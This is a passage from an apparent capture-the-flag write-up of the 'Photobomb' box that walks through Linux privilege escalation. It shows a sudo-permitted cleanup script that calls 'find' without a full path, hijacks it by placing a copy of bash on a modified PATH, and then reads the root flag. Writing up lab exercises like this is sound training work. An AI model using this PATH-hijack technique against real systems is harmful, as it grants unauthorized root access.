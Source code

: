 So I have the user flag, taken from wizard's account!

## Privilege Escalation

Now on to privilege escalation.  First, let's try the low hanging fruit:

```bash
wizard@photobomb:~/photobomb$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

So we can run `/opt/cleanup.sh`..  Looking at this script:

```bash
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

The commands are absolute paths except for `find`. I tried copying `/bin/bash` to `/tmp/find`, and running the script while
preserving my environment with the `-E` flag, which disables the env_reset option:

```bash
PATH="/tmp:$PATH" sudo -E /opt/cleanup.sh
```
So, when the shell attempts to run `find`, it first checks the `/tmp` directory, and instead would execute my copy of `bash`.

However, this wasn't working, and after a few minutes of digging through the [sudo man page](https://man7.org/linux/man-pages/man8/sudo.8.html) I noticed the env_reset in `sudo -l` output will reset the path, however also noticed that SETENV is enabled.  So, I was able to pick up my fake find executable with a plain old:

```bash
wizard@photobomb:~/photobomb$ sudo PATH="/tmp:$PATH" /opt/cleanup.sh 
root@photobomb:/home/wizard/photobomb# id
uid=0(root) gid=0(root) groups=0(root)
root@photobomb:/home/wizard/photobomb# cat /root/root.txt
adc699daf52cc1ba2c0d95e5cc85f007
```
